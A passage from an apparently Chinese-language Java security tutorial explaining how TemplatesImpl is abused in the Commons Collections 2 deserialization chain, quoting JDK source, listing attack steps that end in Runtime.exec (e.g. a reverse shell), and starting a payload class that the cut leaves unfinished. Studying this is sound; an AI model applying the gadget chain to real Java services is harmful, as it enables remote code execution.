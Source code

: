 ```java
    }
	// 如果_bytecodes中没有任何一个类的父类是AbstractTranslet，那么直接抛异常，我们要做的是不让他抛出异常
    if (_transletIndex < 0) {
        ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    ......
}
```


### CC2中的应用

在 CC2（Common Collections 2）链攻击中，`TemplatesImpl` 经常被用作利用目标。CC2 攻击链通过利用 `TemplatesImpl` 类的反序列化漏洞，可以通过构造恶意的 `TemplatesImpl` 对象来触发反序列化时执行的恶意代码。

`TemplatesImpl` 在反序列化时可能被构造为一个恶意的对象，通过操纵其 `_bytecodes` 和 `_tfactory` 字段，能够构造出一个可以触发任意代码执行的对象。在攻击中，`TemplatesImpl` 类的反序列化结合了其他类（例如 `ChainedTransformer`、`LazyMap` 等），从而触发恶意代码的执行。

### **反序列化触发过程**

1. **构造恶意 `TemplatesImpl` 对象**： 攻击者可以构造一个包含恶意字节码的 `TemplatesImpl` 对象。该字节码可以包含一个恶意类，通常是通过使用 `ysoserial` 工具构造的。
2. **修改 `_bytecodes` 字段**： 在反序列化时，`TemplatesImpl` 会将 `_bytecodes` 字段的字节码加载到内存中。这些字节码可能包含恶意类的构造器或静态代码块，导致恶意代码的执行。
3. **通过 `ChainedTransformer` 触发反序列化**： `ChainedTransformer` 是一个常用的构造器，可以将多个转换器串联起来执行。在 CC2 链中，攻击者可以通过 `ChainedTransformer` 在反序列化时触发恶意 `TemplatesImpl` 对象的执行。
4. **利用 `LazyMap` 触发恶意对象的执行**： `LazyMap` 是 `Common Collections` 中的一个类，它会在访问特定键时延迟加载值。在 CC2 链中，攻击者通过 `LazyMap` 和动态代理的结合，可以在反序列化时延迟执行恶意代码。
5. **执行恶意代码**： 一旦反序列化过程完成，恶意代码就会被执行。这通常是通过调用 `Runtime.getRuntime().exec()` 执行一个系统命令（如启动反向 shell 或其他恶意操作）。

### ClassLoader.defineClass

在这个方法中，可以通过二进制字节码文件来创建对应的Class对象

```java
// name为类名
// b为对应的二进制字节码文件
// off为偏移，一般情况下设置为0就行
// len就是要解析的字节码长度
// off + len就是截取字节码中间的一段，但是字节码只有一个class信息时，off=0、len=byte[].length即可
protected final Class<?> defineClass(String name, byte[] b, int off, int len)
        throws ClassFormatError
{
    return defineClass(name, b, off, len, null);
}
```

有了TemplatesImpl这个类的话就可以不需要原来那么繁琐的调用链代码了，只需要把Runtime.getRuntime.exec()这一段代码通过defineClass方法进行触发就行。

```java
// 我们需要一个类继承于AbstractTranslet，这样才能在触发defineTransletClasses方法时不让其抛出异常
public class CCE2Translet extends AbstractTranslet implements Serializable {

    private static final long serialVersionUID = -5971610431559700674L;

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

```